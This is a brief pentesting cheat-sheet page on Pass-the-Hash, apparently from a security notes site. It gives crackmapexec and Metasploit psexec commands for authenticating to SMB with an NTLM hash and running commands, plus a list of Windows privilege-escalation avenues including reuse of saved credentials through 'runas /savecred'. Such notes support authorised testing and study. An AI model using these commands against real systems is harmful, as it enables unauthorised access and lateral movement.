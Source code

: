 
## Pass the Hash

```sh
# 1. Method
crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"

# 2. Method (Metasploit) -> windows/smb/psexec
set SMBPass <LM hash>:<NTLM hash>
```

{{< hint style=notes >}}
**Notes**:

* Empty LM hash: `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
  * `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
* With `hashdump` you have the right format
{{< /hint >}}

---

## Other

* Powershell History
* Saved Windows Credentials
  * cmdkey /list
  * runas /savecred /user:admin cmd.exe
* Scheduled Tasks
* Insecure Permissions on Service Executable
* Unquoted Service Paths
* Insecure Service Permissions
* Windows Privileges
* Unpatched Software